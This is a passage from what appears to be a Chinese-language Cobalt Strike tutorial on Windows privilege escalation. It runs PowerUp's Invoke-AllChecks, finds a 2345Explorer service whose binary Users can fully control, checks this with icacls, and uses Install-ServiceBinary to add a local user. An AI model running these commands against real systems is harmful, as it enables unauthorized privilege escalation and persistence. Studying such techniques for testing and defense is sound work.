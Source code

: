 

输入`powershell Invoke-AllChecks`, PowerShell脚本会快速帮我们扫描系统的弱点, 此处扫描出一个正在运行的服务: `Protect_2345Explorer.exe`

<img src="CobaltStrike的使用教程/image-20221009165316137.png" alt="image-20221009165316137" style="zoom:67%;" />	



查看此服务的权限情况: `shell icacls "C:\Program Files (x86)\2345Soft\2345Explorer\Protect\Protect_2345Explorer.exe"` , 发现User组的用户对此服务拥有完全控制的权限			

![image-20221009165836953](CobaltStrike的使用教程/image-20221009165836953.png)

> F表示此用户拥有完全控制的权限
>
> RX表示此用户没有权限	



添加系统用户: `powershell Install-ServiceBinary -ServiceName Protect_2345Explorer -UserName test2 -Password 123456`

